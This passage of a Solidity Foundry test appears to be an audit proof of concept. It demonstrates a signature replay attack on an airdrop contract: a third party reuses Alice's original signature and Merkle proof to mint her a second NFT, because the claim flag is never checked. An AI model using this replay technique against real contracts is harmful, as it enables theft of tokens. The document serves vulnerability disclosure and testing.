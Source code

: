 ```Solidity
        assertEq(snow.balanceOf(address(airdrop)), initialAirdropSnowBalance + 1); // Airdrop contract Snow balance should increase by 1

        // --- Setup for Replay Attack ---
        // 1. Alice needs to re-acquire 1 wei of Snow token.
        //    The `earnSnow()` function mints 1 wei but has a timer. We'll advance time.
        vm.warp(block.timestamp + 1 weeks + 1 seconds); // Advance time to bypass earnSnow timer

        vm.prank(alice);
        snow.earnSnow(); // Alice calls earnSnow() to get 1 wei of Snow token again.

        assertEq(snow.balanceOf(alice), 1, "Alice's Snow balance should be 1 wei again for replay attempt");

        // 2. Alice needs to approve the Airdrop contract again for the new tokens.
        vm.prank(alice);
        snow.approve(address(airdrop), 1);

        // --- Attempt Replay Attack ---
        // Satoshi attempts to replay the claim using the *exact same original signature* (alV, alR, alS)
        // and the *exact same Merkle proof* (AL_PROOF).
        // The `getMessageHash(alice)` will now produce the same digest as `alDigestOriginal` because
        // Alice's Snow balance is 1 wei again, which is what the original signature was based on.
        // The Merkle leaf calculation inside `claimSnowman` will also match the original leaf for AL_PROOF.

        bytes32 alDigestForReplay = airdrop.getMessageHash(alice);
        assertEq(alDigestForReplay, alDigestOriginal, "Digest for replay should match original digest if balance is restored");

        uint256 nftBalanceBeforeReplay = nft.balanceOf(alice);
        uint256 snowBalanceOfAliceBeforeReplay = snow.balanceOf(alice);
        uint256 airdropSnowBalanceBeforeReplayAttempt = snow.balanceOf(address(airdrop));
        uint256 nextNftId = nft.getTokenCounter();

        vm.prank(satoshi); // Satoshi makes the replay call
        airdrop.claimSnowman(alice, AL_PROOF, alV, alR, alS);

        // --- Assertions for Successful Replay (Proving Vulnerability) ---
        // If the replay is successful, Alice will have another NFT, and her Snow balance will be 0 again.
        assertEq(nft.balanceOf(alice), nftBalanceBeforeReplay + 1, "VULNERABILITY: Alice received an additional NFT due to replay!");
        assertEq(snow.balanceOf(alice), snowBalanceOfAliceBeforeReplay - 1, "VULNERABILITY: Alice's Snow balance decreased again due to replay!");
        assertEq(nft.ownerOf(nextNftId), alice, "VULNERABILITY: Alice should own the second NFT from replay");
        assertTrue(airdrop.getClaimStatus(alice), "Alice's claim status remains true"); // This flag was set but not checked to prevent replay
        assertEq(snow.balanceOf(address(airdrop)), airdropSnowBalanceBeforeReplayAttempt + 1, "VULNERABILITY: Airdrop contract Snow balance increased again from replay");
    }
```
